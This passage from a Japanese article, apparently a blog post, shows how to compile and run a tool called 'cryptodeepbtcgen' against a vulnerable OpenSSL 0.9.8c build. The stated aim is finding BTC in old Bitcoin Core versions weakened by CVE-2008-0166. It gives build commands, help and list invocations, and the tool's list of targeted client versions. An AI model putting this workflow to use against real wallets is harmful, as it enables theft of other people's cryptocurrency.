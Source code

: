 

<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/a80/061/cff/a80061cffc581eb46cb2f1b9a11dd259.png" alt="重大な脆弱性 OpenSSL 0.9.8 CVE-2008-0166 がある以前のバージョンの Bitcoin Core で BTC コインを検索する"/></figure>



<h2>コンパイル:</h2>



<pre class="wp-block-code"><code>gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

ls -lh
</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/c70/338/b5e/c70338b5ee1f6991711f03d09c4e2932.png" alt="cryptodeepbtcgen が正常に作成されました!" title="cryptodeepbtcgen が正常に作成されました!"/><figcaption class="wp-element-caption">cryptodeepbtcgen が正常に作成されました!</figcaption></figure>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/b60/1a6/941/b601a69413aacc3e9efa10ef0fb084fb.png" alt="重大な脆弱性 OpenSSL 0.9.8 CVE-2008-0166 がある以前のバージョンの Bitcoin Core で BTC コインを検索する"/></figure>



<h2>ビットコイン コア ソフトウェア クライアントのサポートされているすべてのバージョン:</h2>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/77a/b0d/f5b/77ab0df5baf110bd11c89ccebba0791d.png" alt="重大な脆弱性 OpenSSL 0.9.8 CVE-2008-0166 がある以前のバージョンの Bitcoin Core で BTC コインを検索する"/></figure>



<pre class="wp-block-code"><code>crypto &gt; LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l
#0   - 0.3.24
#1   - 0.8.6-d
#2   - 0.8.6-qt
#3   - 0.9.1-d
#4   - 0.9.4-d
#5   - unknownA
#6   - unknownB
#7   - unknownC
#8   - unknownD
#9   - unknownE
#10  - unknownF
#11  - unknownG
#12  - unknownH
#13  - unknownI
#14  - unknownJ
#15  - unknownK
#16  - unknownA0
#17  - unknownA1
#18  - unknownA2
#19  - unknownA3
#20  - unknownA4
#21  - unknownB0
#22  - unknownB1
#23  - unknownB2
#24  - unknownB3
#25  - unknownC0
#26  - unknownC1
#27  - unknownC2
#28  - unknownD0